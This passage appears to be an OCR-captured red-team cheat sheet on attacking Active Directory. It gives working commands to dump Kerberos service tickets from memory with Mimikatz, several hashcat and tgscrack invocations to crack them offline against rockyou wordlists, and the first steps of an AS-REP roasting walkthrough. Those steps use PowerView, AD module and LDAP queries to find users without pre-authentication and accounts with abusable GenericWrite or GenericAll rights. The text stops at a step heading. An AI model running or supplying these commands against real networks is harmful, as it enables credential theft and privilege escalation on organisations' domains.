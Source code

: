 #Export the ticket from memory to disk using mimikatz
Invoke-Mimikatz -Command '"Kerberos::list /export"'
#Cracking the hash
hashcat -m 13100 -a 0 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/T0XlC-insert_space_and_special_0_F.rule  --force

or 

hashcat -a 0 -m 13100 ticket.hashcat /usr/share/wordlists/rockyou.txt -r/usr/share/hashcat/rules/d3ad0ne.rule --force

or 

hashcat -a 0 -m 13100 hash ~/Downloads/Tools/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --force 
or

hashcat -m 13100 krb5t_hash rockyou.txt --force  

or 

python tgscrack.py wordlist.txt hash.txt 

Targeted Kerberosting - AS-REPs Roasting
Find users with -PreAuthNotRequiered set or users to which we have acecss to Genric All/Generic Write ACL set. 

Log generated is 4769 for Adding DoNotPre-Auth on target user


Step- 1 - Finding Users with PreAuth not required (Skip to Step-5 if you find any users)

#Powerview - Finding users with PreauthNotRequired set 
Get-DomainUser -PreauthNotRequired -Verbose

#AD Module - Finding users with PreauthNotRequired set
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuths

#LDAPQuery - Finding users with PreAuth Not req
(&(UserAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))


Step - 2 - Finding users to Abuse 

#Finding Users with enough persmissions to modify acls
powerview_dev.ps1 Invoke-ACLScanner -ResolveGUIds | {$_.IdentityReferenceName -match "RDPUsers"}

#Finding Objects with GenericWrite
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite')}

#Finding users with GenericAll
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

#or check if anything matches with your SID (for ease of access)
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1087654965-336889418-4984984984-1501')}

Step - 3 Disabling Pre-Auth
